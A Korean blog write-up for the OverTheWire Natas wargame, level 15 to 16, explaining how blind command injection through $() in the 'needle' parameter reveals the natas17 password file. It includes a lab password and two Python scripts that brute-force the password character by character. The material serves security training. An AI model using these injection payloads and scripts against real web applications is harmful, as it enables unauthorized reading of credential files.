 ```yaml
---
title: Natas Level 15 → Level 16
date: 2024-04-07 21:36:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets\img\0407\natas16a.png
---
```

<br>
## 로그인
---
> Username: natas16
> <br> URL: <http://natas16.natas.labs.overthewire.org>


<br>특수문자를 더 필터링했다고 한다. 소스코드를 보면,
<br>![Desktop View](assets/img/0407/natas16b.png){: width="700" height="400" }<br>


소스코드가 익숙하다.. 찾아보니 <a href="https://00yj.tistory.com/165">natas9->10</a>과 비슷한 문제처럼 보인다.<br>
그런데 이번에는 Natas 9 to 10 에서 보다 많은 특수문자를 필터링하고 있으며,<br>
key로 받는 입력값도 명령어에 바로 주입되지 않도록 " "로 막아놨다. 


<br>
<br>
<br>
## 풀이
---
<br>리눅스에서는 <b>'명령어'</b> 또는 <b>$(명령어)</b>를 이용하면 "" 안에 있는 문자열도 명령어로 인식한다.<br>
<b>‘’</b>는 필터링에 걸리므로, <b>$()</b>를 이용하면 된다.


<b>happy</b>를 입력했을 때, 아래와 같이 뜬다.
<br>![Desktop View](assets/img/0407/natas16c.png){: width="700" height="400" }<br>

<br><b>happy$(grep a /etc/natas_webpass/natas17)</b>를 입력했을 때도 똑같이 출력된다.
<br>![Desktop View](assets/img/0407/natas16d.png){: width="700" height="400" }<br>
natas17 패스워드 문자열에 a가 없어서 happy를 입력했을 때와 같은 화면이 뜨는 것이다.


<br>반면<br><b>happy$(grep b /etc/natas_webpass/natas17)</b> 를 입력했을 때는 아무것도 뜨지 않는다.
<br>![Desktop View](assets/img/0407/natas16e.png){: width="700" height="400" }<br>
natas17 패스워드에 b가 있다는 뜻이다.<br>
이 결과를 이용하여 자동화 프로그램을 쓰면 된다.


<br>
<br>
<br>
## 자동화 프로그램
---
<br>먼저 패스워드를 이루는 문자열을 뽑는다.<br>
```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw_char = ''
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for char in allchars:
    r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ' +
                     char + ' /etc/natas_webpass/natas17)', auth=auth)
 
    if 'happy' not in r.text:
        pw_char = pw_char + char
        print(pw_char)
```

<br>결과
<br>![Desktop View](assets/img/0407/natas16f.png){: w="250" h="500" }<br>

이제 출력된 문자열 bdhkmnsuvBCEHIKLRSUX1790을 하나씩 넣어서 패스워드를 조합하는 프로그램을 쓰자.<br>
앞의 코드랑 비슷하게 쓰면 된다.<br>
이 때 grep의 정규 표현식인 '^' 를 이용한다.<br>

> 정규 표현식이란 문자열의 집합을 지정하는 방법으로,<br>
특정 규칙을 만족하는 문자열을 찾기 위해 사용된다. 따라서<br>
<b>happy$(grep b /etc/natas_webpass/natas17)</b>는 'b'를 어디에나 포함하는 모든 줄을 찾고,<br>
<b>happy$(grep ^b /etc/natas_webpass/natas17)</b>는 오직 'b'로 시작하는 줄만을 찾는다.<br>
{: .prompt-info }


```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw = ''
pw_char = 'bdhkmnsuvBCEHIKLRSUX1790'
 
for i in range(32):
    for char in pw_char:
        r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ^' +
                         pw + char + ' /etc/natas_webpass/natas17)', auth=auth)
 
        if 'happy' not in r.text:
            pw = pw + char
            print(pw)
            break
```


<br> 결과
<br>![Desktop View](assets/img/0407/natas16g.png){: w="250" h="500" }<br>


<a href="https://no-more-assignment.tistory.com/209">참고 블로그</a>